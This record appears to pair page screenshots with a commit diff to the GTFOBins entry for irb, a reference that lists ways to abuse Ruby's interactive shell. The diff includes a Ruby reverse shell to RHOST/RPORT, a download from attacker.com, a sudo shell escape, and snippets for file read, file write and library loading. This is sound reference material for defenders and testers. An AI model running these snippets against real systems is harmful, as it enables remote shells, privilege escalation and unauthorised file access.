

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/irb.md, in a window 1280 px wide and 1400 px high, scrolled down 445 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1322 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Adjust and add file-write, file-read, and library-load to irb

```diff
--- a/_gtfobins/irb.md
+++ b/_gtfobins/irb.md
@@ -5,24 +5,36 @@ functions:
         irb
         exec '/bin/bash'
   reverse-shell:
-    - description: Run `nc -lvp RPORT` on the attacker box to receive the shell.
+    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
       code: |
         export RHOST='127.0.0.1'
         export RPORT=9000
         irb
         require 'socket'; exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read} end
   file-upload:
-    - description: Serve files in the local folder running an HTTP server on port 8080.
+    - description: Serve files in the local folder running an HTTP server on port 8888.
       code: |
         irb
-        require 'webrick'; WEBrick::HTTPServer.new(:Port => 8000, :DocumentRoot => Dir.pwd).start;
+        require 'webrick'; WEBrick::HTTPServer.new(:Port => 8888, :DocumentRoot => Dir.pwd).start;
   file-download:
-    - description: Fetch a remote file via an HTTP GET request and store it in `PWD`.
+    - description: Fetch a remote file via HTTP GET request.
       code: |
         export URL=http://attacker.com/file_to_get
-        export FILE=file_to_save
+        export LFILE=file_to_save
         irb
-        require 'open-uri'; download = open(ENV['URL']); IO.copy_stream(download, ENV['FILE'])
+        require 'open-uri'; download = open(ENV['URL']); IO.copy_stream(download, ENV['LFILE'])
+  file-write:
+    - code: |
+        irb
+        File.open("file_to_write", "w+") { |f| f.write("DATA") }
+  file-read:
+    - code: |
+        irb
+        puts File.read("file_to_read")
+  library-load:
+    - code: |
+        irb
+        require "fiddle"; Fiddle.dlopen("lib.so")
   sudo:
     - code: |
         sudo irb
```
